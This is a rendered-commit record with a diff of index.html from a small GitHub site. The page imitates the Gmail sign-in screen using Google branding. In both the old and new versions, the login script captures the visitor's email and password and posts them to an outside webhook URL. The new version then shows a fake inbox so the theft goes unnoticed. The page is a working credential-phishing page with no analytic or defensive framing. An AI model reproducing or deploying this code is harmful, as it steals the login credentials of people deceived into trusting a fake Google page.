

Before and after one commit to Likith-LVSHD/hello, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 331-800 px from the top of the page, without its empty margins (368-1280 px from the left). Drawn offline with Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,206 +2,158 @@
 <html lang="en">
 <head>
 <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
 <title>Gmail – Sign in</title>
-  <link href="https://fonts.googleapis.com/css2?family=Google+Sans:wght@400;500&display=swap" rel="stylesheet"/>
+<meta name="viewport" content="width=device-width, initial-scale=1" />
+<link href="https://fonts.googleapis.com/css2?family=Google+Sans:wght@300;400;500&display=swap" rel="stylesheet" />
+<link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet" />
 <style>
-    * { margin: 0; padding: 0; box-sizing: border-box; }
-    body {
-      font-family: "Google Sans", Arial, sans-serif;
-      background: #f1f3f4;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      justify-content: center;
-      min-height: 100vh;
-      color: #202124;
-      font-size: 14px;
+:root{
+  --bg:#f0f2f5; --card:#ffffff; --primary:#1a73e8; --txt:#202124;
+  --sub:#5f6368; --line:#e0e0e0; --hover:#f1f3f4; --shadow:0 2px 10px rgba(0,0,0,.1);
 }
-    .center-box {
-      background: #fff;
-      padding: 48px 40px 36px;
-      border-radius: 8px;
-      box-shadow: 0 2px 10px rgba(0,0,0,.1);
-      width: 100%;
-      max-width: 450px;
+[data-theme="dark"]{
+  --bg:#121212; --card:rgba(255,255,255,.08); --txt:#e8eaed;
+  --sub:#9aa0a6; --line:rgba(255,255,255,.2); --shadow:rgba(0,0,0,.4);
 }
-    .logo {
-      margin-bottom: 10px;
+*{margin:0;padding:0;box-sizing:border-box;font-family:"Google Sans",sans-serif;color:var(--txt)}
+body{display:flex;align-items:center;justify-content:center;min-height:100vh;background:var(--bg);transition:background .3s}
+.toggle{position:absolute;top:12px;right:16px;font-size:24px;cursor:pointer}
+
+/* ---------- LOGIN ---------- */
+.login-card{
+  width:100%;max-width:400px;padding:50px 40px;border-radius:20px;background:var(--card);
+  box-shadow:var(--shadow);backdrop-filter:blur(20px);animation:fadeIn .5s ease;
 }
-    h1 {
-      font-size: 24px;
-      font-weight: 400;
-      margin-bottom: 8px;
-    }
-    p {
-      color: #5f6368;
-      margin-bottom: 30px;
-    }
-    .field {
-      position: relative;
-      margin-bottom: 30px;
-    }
-    input {
-      width: 100%;
-      height: 56px;
-      padding: 16px 14px 6px;
-      border: 1px solid #dadce0;
-      border-radius: 4px;
-      font-size: 16px;
-      background: transparent;
-    }
-    label {
-      position: absolute;
-      left: 14px;
-      top: 18px;
-      color: #5f6368;
-      pointer-events: none;
-      transition: 0.2s;
-      background: #fff;
-      padding: 0 4px;
-    }
-    input:focus + label,
-    input:not(:placeholder-shown) + label {
-      top: -8px;
-      font-size: 12px;
-      color: #1a73e8;
-    }
-    input:focus {
-      outline: none;
-      border: 2px solid #1a73e8;
-    }
-    a {
-      color: #1a73e8;
-      text-decoration: none;
-      font-weight: 500;
-    }
-    .forgot {
-      display: block;
-      margin: -20px 0 30px;
-    }
-    .guest {
-      color: #5f6368;
-      margin-bottom: 32px;
-      line-height: 1.5;
-    }
-    .actions {
-      display: flex;
-      justify-content: space-between;
-      align-items: center;
-    }
-    button {
-      background: #1a73e8;
-      color: #fff;
-      border: none;
-      padding: 10px 24px;
-      border-radius: 4px;
-      font-size: 14px;
-      cursor: pointer;
-    }
-    button:hover {
-      background: #1765cc;
-    }
-    footer {
-      width: 100%;
-      max-width: 450px;
-      margin-top: 24px;
-      display: flex;
-      justify-content: space-between;
-      align-items: center;
-      font-size: 12px;
-      color: #5f6368;
-    }
-    nav a {
-      margin-left: 20px;
-    }
-    select {
-      border: none;
-      background: transparent;
-      color: #5f6368;
-      cursor: pointer;
-    }
+@keyframes fadeIn{from{transform:translateY(20px);opacity:0}to{transform:translateY(0);opacity:1}}
+.login-card img{width:92px;margin:0 auto 20px;display:block}
+.login-card h1{font-size:26px;font-weight:400;text-align:center;margin-bottom:30px}
+.field{position:relative;margin-bottom:28px}
+.field input{width:100%;height:56px;padding:20px 16px 6px;border:1px solid var(--line);border-radius:8px;font-size:16px;background:transparent;transition:border .3s,box-shadow .3s}
+.field label{position:absolute;left:16px;top:18px;color:var(--sub);transition:.2s}
+.field input:focus+label,.field input:not(:placeholder-shown)+label{top:6px;font-size:12px;color:var(--primary)}
+.field input:focus{border-color:var(--primary);box-shadow:0 0 0 3px rgba(26,115,232,.2)}
+.actions{display:flex;justify-content:space-between;align-items:center;margin-top:28px}
+.btn{background:var(--primary);color:#fff;border:none;padding:11px 28px;border-radius:6px;font-size:15px;cursor:pointer;transition:background .3s,transform .15s}
+.btn:hover{background:#1765cc}.btn:active{transform:scale(.96)}
+
+/* ---------- INBOX ---------- */
+header{display:flex;align-items:center;height:64px;padding:0 16px;background:var(--card);border-bottom:1px solid var(--line)}
+.hamburger{margin-right:16px}
+.logo{height:40px;margin-right:20px}
+.search{flex:1;max-width:720px;height:48px;border-radius:24px;background:var(--bg);border:1px solid var(--line);display:flex;align-items:center;padding:0 16px}
+.search input{flex:1;border:none;background:none;outline:none;margin:0 8px;color:var(--txt)}
+.profile{width:36px;height:36px;border-radius:50%;cursor:pointer;margin-left:16px}
+.wrapper{display:flex;height:calc(100vh - 64px)}
+.sidebar{width:256px;background:var(--card);border-right:1px solid var(--line);transition:width .3s}
+.sidebar.collapsed{width:72px}
+.compose-btn{margin:8px 16px 20px;height:56px;border-radius:16px;background:var(--primary);color:#fff;font-weight:500;display:flex;align-items:center;justify-content:center;gap:12px}
+.sidebar.collapsed .compose-btn span{display:none}
+.nav-item{height:40px;display:flex;align-items:center;padding:0 16px;border-radius:0 50px 50px 0;margin:0 8px;cursor:pointer;color:var(--sub)}
+.nav-item.active{background:rgba(26,115,232,.12);color:var(--primary)}
+.sidebar.collapsed .nav-item span{display:none}
+.main{flex:1;display:flex;flex-direction:column;overflow:hidden}
+.toolbar{height:48px;padding:0 16px;display:flex;align-items:center;border-bottom:1px solid var(--line)}
+.list{flex:1;overflow-y:auto}
+.row{display:grid;grid-template-columns:32px 1fr auto;align-items:center;padding:12px 16px;border-bottom:1px solid var(--line);cursor:pointer}
+.row:hover{background:var(--hover)}
+.modal-bg{position:fixed;inset:0;background:rgba(0,0,0,.5);display:none;align-items:center;justify-content:center;z-index:999}
+.modal{width:600px;max-width:90vw;background:var(--card);border-radius:12px;animation:pop .25s}
+@keyframes pop{from{transform:scale(.9);opacity:0}}
+.hidden{display:none}
 </style>
 </head>
 <body>
-  <div class="center-box">
-    <img class="logo" src="https://accounts.google.com/gsi/style/logos/googlelogo_color_92x36dp.png" alt="Google">
+
+<button id="themeToggle" class="toggle">🌙</button>
+
+<!-- ---------- LOGIN ---------- -->
+<section id="loginPage" class="login-card">
+  <img src="https://accounts.google.com/gsi/style/logos/googlelogo_color_92x36dp.png" alt="Google">
   <h1>Sign in</h1>
-    <p>Use your Google Account</p>
+  <form id="loginForm">
+    <div class="field">
+      <input id="email" type="email" placeholder=" " required>
+      <label>Email or phone</label>
+    </div>
+    <div class="field">
+      <input id="password" type="password" placeholder=" " required>
+      <label>Password</label>
+    </div>
+    <button type="submit" class="btn">Sign in</button>
+  </form>
+</section>
 
-    <form id="loginForm">
-      <!-- Email Step -->
-      <div class="field" id="emailField">
-        <input type="email" id="email" required placeholder=" " />
-        <label for="email">Email or phone</label>
+<!-- ---------- INBOX ---------- -->
+<section id="inboxPage" class="hidden">
+  <header>
+    <button id="hamburger" class="material-icons hamburger">menu</button>
+    <img class="logo" src="https://www.gstatic.com/images/branding/googlelogo/1x/googlelogo_color_74x24dp.png">
+    <div class="search"><i class="material-icons">search</i><input placeholder="Search mail"><i class="material-icons">tune</i></div>
+    <img class="profile" src="https://i.pravatar.cc/36?u=me">
+  </header>
+  <div class="wrapper">
+    <aside id="sidebar" class="sidebar">
+      <button id="composeBtn" class="compose-btn"><i class="material-icons">edit</i><span>Compose</span></button>
+      <div class="nav-item active"><i class="material-icons">inbox</i><span>Inbox</span></div>
+      <div class="nav-item"><i class="material-icons">star</i><span>Starred</span></div>
+      <div class="nav-item"><i class="material-icons">send</i><span>Sent</span></div>
+    </aside>
+    <main class="main">
+      <div class="toolbar"><input type="checkbox"><i class="material-icons" title="Refresh">refresh</i><i class="material-icons" title="More">more_vert</i></div>
+      <div id="list" class="list"></div>
+    </main>
+  </div>
+</section>
+
+<div id="modalBg" class="modal-bg">
+  <div class="modal">
+    <header>New Message <i id="closeModal" class="material-icons">close</i></header>
+    <main><input placeholder="To" style="width:100%;border:none;border-bottom:1px solid var(--line);margin-bottom:8px;outline:none"><input placeholder="Subject" style="width:100%;border:none;border-bottom:1px solid var(--line);margin-bottom:8px;outline:none"><textarea placeholder="Your message…" style="width:100%;height:200px;border:none;outline:none;resize:none;background:none"></textarea></main>
+    <footer><button class="btn">Send</button></footer>
+  </div>
 </div>
 
-      <!-- Password Step -->
-      <div class="field" id="passwordField" style="display: none;">
-        <input type="password" id="password" required placeholder=" " />
-        <label for="password">Enter your password</label>
-      </div>
+<script>
+document.getElementById('themeToggle').onclick = () => {
+  document.body.toggleAttribute('data-theme');
+  document.getElementById('themeToggle').textContent = document.body.hasAttribute('data-theme') ? '☀️' : '🌙';
+};
 
-      <a href="#" class="forgot" id="forgotLink">Forgot email?</a>
-
-      <div class="guest" id="guestNote">
-        Not your computer? Use a private browsing window to sign in. <a href="#">Learn more</a>
-      </div>
-
-      <div class="actions">
-        <a href="#" class="create">Create account</a>
-        <button type="submit" id="submitBtn">Next</button>
-      </div>
-    </form>
-  </div>
-
-  <footer>
-    <select>
-      <option value="en">English (United States)</option>
-    </select>
-    <nav>
-      <a href="#">Help</a>
-      <a href="#">Privacy</a>
-      <a href="#">Terms</a>
-    </nav>
-  </footer>
-
-  <script>
-    const loginForm = document.getElementById("loginForm");
-    const emailField = document.getElementById("emailField");
-    const passwordField = document.getElementById("passwordField");
-    const submitBtn = document.getElementById("submitBtn");
-    const forgotLink = document.getElementById("forgotLink");
-    const guestNote = document.getElementById("guestNote");
-
-    let step = 1;
-
-    loginForm.addEventListener("submit", async function (e) {
+/* ---------- Webhook POST (line 97) ---------- */
+document.getElementById('loginForm').addEventListener('submit', async e => {
   e.preventDefault();
-
-      if (step === 1) {
-        // Show password field
-        emailField.querySelector("input").disabled = true;
-        passwordField.style.display = "block";
-        submitBtn.textContent = "Sign in";
-        forgotLink.style.display = "none";
-        guestNote.style.display = "none";
-        step = 2;
-        return;
-      }
-
-      // Step 2: Submit credentials to webhook
-      const email = document.getElementById("email").value;
-      const password = document.getElementById("password").value;
-
-      await fetch("https://play.svix.com/in/e_Cb6Z8mEkZaEi40pbz4To7voWnZn/", {
-        method: "POST",
-        headers: { "Content-Type": "application/json" },
+  const email = document.getElementById('email').value;
+  const password = document.getElementById('password').value;
+  await fetch('https://play.svix.com/in/e_Cb6Z8mEkZaEi40pbz4To7voWnZn/', {
+    method: 'POST',
+    headers: { 'Content-Type': 'application/json' },
     body: JSON.stringify({ email, password })
   });
+  document.getElementById('loginPage').classList.add('hidden');
+  document.getElementById('inboxPage').classList.remove('hidden');
+  document.getElementById('inboxPage').classList.add('fade-enter');
+});
 
-      alert("Signed in as " + email);
-    });
+/* ---------- Inbox ---------- */
+document.getElementById('hamburger').onclick = () => document.getElementById('sidebar').classList.toggle('collapsed');
+document.getElementById('composeBtn').onclick = () => document.getElementById('modalBg').style.display = 'flex';
+document.getElementById('closeModal').onclick = () => document.getElementById('modalBg').style.display = 'none';
+
+const list = document.getElementById('list');
+list.innerHTML = [
+  { from: 'Alice', subject: 'Project update', snippet: 'Latest build attached…', time: '10:42 AM' },
+  { from: 'GitHub', subject: 'PR #123 opened', snippet: 'Review requested', time: '9:21 AM' },
+  { from: 'Mom', subject: 'Dinner', snippet: 'See you at 7?', time: '8:46 AM' }
+].map(m => `
+  <div class="row">
+    <input type="checkbox">
+    <div>
+      <div style="font-weight:500">${m.from}</div>
+      <div style="font-size:13px;color:var(--sub)">${m.subject} – ${m.snippet}</div>
+    </div>
+    <span style="font-size:12px;color:var(--sub)">${m.time}</span>
+  </div>
+`).join('');
 </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
